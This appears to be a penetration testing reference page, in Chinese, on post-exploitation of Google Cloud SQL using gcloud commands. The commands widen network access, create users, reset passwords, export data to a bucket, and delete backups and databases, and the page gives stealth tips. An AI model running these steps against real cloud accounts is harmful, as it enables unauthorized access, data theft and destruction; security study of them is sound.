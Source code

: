 # GCP - Cloud SQL 后期利用

{{#include ../../../banners/hacktricks-training.md}}

## Cloud SQL

有关 Cloud SQL 的更多信息，请查看：

{{#ref}}
../gcp-services/gcp-cloud-sql-enum.md
{{#endref}}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

要连接到数据库，您**只需访问数据库端口**并知道**用户名**和**密码**，没有任何 IAM 要求。因此，假设数据库具有公共 IP 地址，获取访问权限的一个简单方法是更新允许的网络并**允许您自己的 IP 地址访问它**。
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
也可以使用 **`--no-backup`** 来 **干扰数据库的备份**。

由于这些是要求，我不完全确定 **`cloudsql.instances.connect`** 和 **`cloudsql.instances.login`** 的权限是什么。如果你知道，请发送一个 PR！

### `cloudsql.users.list`

获取数据库的 **所有用户列表**：
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

此权限允许**在数据库中创建新用户**：
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

此权限允许**更新数据库中的用户**。例如，您可以更改其密码：
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

备份可能包含**旧的敏感信息**，因此检查它们是很有趣的。\
**在数据库中恢复备份**：
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
为了以更隐蔽的方式进行操作，建议创建一个新的 SQL 实例，并在该实例中恢复数据，而不是在当前运行的数据库中。

### `cloudsql.backupRuns.delete`

此权限允许删除备份：
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**将数据库导出**到 Cloud Storage Bucket，以便您可以从那里访问它：
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**从 Cloud Storage Bucket 导入数据库**（覆盖）：
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

从数据库实例中删除一个数据库：
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{{#include ../../../banners/hacktricks-training.md}}

